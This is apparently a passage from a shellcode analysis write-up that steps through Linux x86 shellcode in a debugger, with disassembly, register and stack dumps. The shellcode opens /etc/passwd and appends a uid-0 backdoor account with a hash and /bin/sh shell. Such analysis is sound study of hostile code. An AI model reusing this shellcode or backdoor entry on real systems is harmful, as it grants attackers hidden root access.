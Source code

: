 ```
0000004C  2F                das
0000004D  7368              jnc 0xb7
0000004F  0A598B            or bl,[ecx-0x75]
00000052  51                push ecx
00000053  FC                cld
00000054  6A04              push byte +0x4
00000056  58                pop eax
00000057  CD80              int 0x80
``` 
The file descriptor from the previous call is saved in ebx, while eax now hold /etc//passwd.
``` 
[----------------------------------registers-----------------------]
EAX: 0xbffff6dc ("/etc//passwd")
EBX: 0x7 
ECX: 0x401 
EDX: 0x0 
ESI: 0x0 
EDI: 0x804a069 --> 0x786f0000 ('')
EBP: 0xbffff728 --> 0x0 
ESP: 0xbffff6dc ("/etc//passwd")
EIP: 0x804a066 --> 0x25e8
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------]
   0x804a061 <shellcode+33>: mov    ch,0x4
   0x804a063 <shellcode+35>: int    0x80
   0x804a065 <shellcode+37>: xchg   ebx,eax
=> 0x804a066 <shellcode+38>: call   0x804a090 <shellcode+80>
   0x804a06b <shellcode+43>: outs   dx,DWORD PTR ds:[esi]
   0x804a06c <shellcode+44>: js     0x804a0d2
   0x804a06e <shellcode+46>: imul   esi,DWORD PTR [eax+0x73],0x7a413a79
   0x804a075 <shellcode+53>: xor    cl,BYTE PTR [ebp+0x6e]
Guessed arguments:
arg[0]: 0x6374652f ('/etc')
arg[1]: 0x61702f2f ('//pa')
arg[2]: 0x64777373 ('sswd')
arg[3]: 0x0 
arg[4]: 0x8048430 (<main+76>: mov    edi,DWORD PTR [ebp-0x4])
[------------------------------------stack-------------------------]
0000| 0xbffff6dc ("/etc//passwd")
0004| 0xbffff6e0 ("//passwd")
0008| 0xbffff6e4 ("sswd")
0012| 0xbffff6e8 --> 0x0 
0016| 0xbffff6ec --> 0x8048430 (<main+76>: mov    edi,DWORD PTR [ebp-0x4])
0020| 0xbffff6f0 --> 0x8048510 ("Shellcode Length:  %d\n")
0024| 0xbffff6f4 --> 0x28 ('(')
0028| 0xbffff6f8 --> 0x8049ff4 --> 0x8049f28 --> 0x1 
[------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804a066 in shellcode ()
``` 
I believe that the call instruction follows JMP-CALL-POP technique, that is why we see our customized username and password pushed into the stack then popped to ECX.
``` 
[----------------------------------registers-----------------------]
EAX: 0xbffff6dc ("/etc//passwd")
EBX: 0x7 
ECX: 0x401 
EDX: 0x0 
ESI: 0x0 
EDI: 0x804a069 --> 0x786f0000 ('')
EBP: 0xbffff728 --> 0x0 
ESP: 0xbffff6d8 --> 0x804a06b ("oxdipsy:Az2MnRp7oxKXQ:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀")
EIP: 0x804a090 --> 0xfc518b59
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
```